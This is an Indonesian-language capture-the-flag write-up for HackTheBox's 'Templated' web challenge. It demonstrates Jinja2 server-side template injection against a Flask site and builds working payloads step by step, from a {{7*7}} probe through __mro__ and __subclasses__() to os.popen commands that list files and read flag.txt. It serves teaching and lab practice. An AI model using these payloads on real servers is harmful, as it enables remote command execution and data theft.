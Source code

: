 CTF Name : HackTheBox Challenges  
Challenge category : Web  
Challenge Name : Templated  
Challenge points : 0 Points — Easy  
Challenge desc : Can you exploit this simple mistake?

![Pasted image 20240723132142](https://github.com/user-attachments/assets/d95b27ab-f30e-43e6-941f-b2fcfad9e8ad)

Berikut adalah isi dari web instancenya.

![Pasted image 20240723132329](https://github.com/user-attachments/assets/062b9bd5-2cfb-4c4f-84ad-20712ff42ea6)

Dari page tersebut, kita dapat ambil informasi bahwa web tersebut menggunakan Flask/Jinja2. Yang mana kalau kita search di google tentang Jinja2, kita akan menemukan informasi baru.
![Pasted image 20240723132528](https://github.com/user-attachments/assets/7cd7483d-a304-4759-84c3-d028eb158a6b)


Jinja merupakan sebuah template engine web yang terbuat dari python, cara kerjanya adalah merender text/variabel menjadi HTML. Apabila Jinja tidak dikonfigurasi security-nya dengan baik, maka Jinja bisa rentan terhadap SSTI (Server-Side Template Injection).

Untuk bacaan tentang SSTI bisa di [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

Langsung saja kita kerjakan, kita lakukan pengetesan vuln Jinja dengan variabel name.

![Pasted image 20240723134007](https://github.com/user-attachments/assets/9224f0ce-ef6e-4375-8306-10b10eeb82bd)

Ternyata, tidak terdapat perubahan apa-apa dengan variabel name. Kita akan coba untuk langsung memasukkan SSTI-nya sebagai direktori, contohnya seperti ini.

```
http://host:port/{{7*7}}
```

![Pasted image 20240723134204](https://github.com/user-attachments/assets/8511f10b-e908-447c-b227-fc0567017f9f)


Dan ternyata bisa. Untuk pengujian lebih lanjutnya kita bisa mengikuti [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#accessing-global-objects). Berhubung Jinja ini terbuat dari python, maka kita bisa memasukkan juga program Python untuk exploit SSTInya. Kita akan menggunakan builtins function ‘import’, ‘mro’, dan ‘subclasses’ untuk mengakses setiap class yang diload di program python saat ini.

Untuk awalan exploitnya, kita akan menggunakan string class terlebih dahulu kemudian bertahap memodifikasi exploitnya sesuai dengan kasus yang ada.

```
http://host:port/{{"".__class__.__mro__[1]}}
```

![Pasted image 20240723143239](https://github.com/user-attachments/assets/378c1522-1b9a-4c20-9aeb-81451959d7d0)


Kita tambahkan subclasses untuk melihat list subclass yang dapat diakses dari object.

```
http://host:port/{{"".__class__.__mro__[1].__subclasses__()}}
```

Berikut adalah outputnya.

![Pasted image 20240723144321](https://github.com/user-attachments/assets/ad7c4223-330e-4e85-8f16-e32341bb8013)


Output di atas adalah list class yang dapat kita akses, selanjutnya kita gunakan class yang terdapat function import di dalamnya.

```
http://host:port/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]}}
```
![Pasted image 20240723144805](https://github.com/user-attachments/assets/e3340a62-897c-4c26-92f1-c1f23b48750c)


Dari error di atas, dapat kita lihat bahwa function import dapat kita akses. Selanjutnya adalah kita akan meng-import os, lalu kita panggil ‘popen()’ yang akan mengeksekusi command dan kita panggil ‘read()’ untuk menampilkan outputnya.

```
http://host:port/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls").read()}}
```
![Pasted image 20240723145310](https://github.com/user-attachments/assets/5c2e0ec3-dd5b-4fc3-ad0f-5e6c25908567)




Sudah terlihat flag.txtnya, tinggal kita tampilkan dengan cat.

```
http://host:port/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```

![Pasted image 20240723145421](https://github.com/user-attachments/assets/84e556bc-5ab5-46f1-a9a7-9f5e1f33f3dd)


Thank you:)
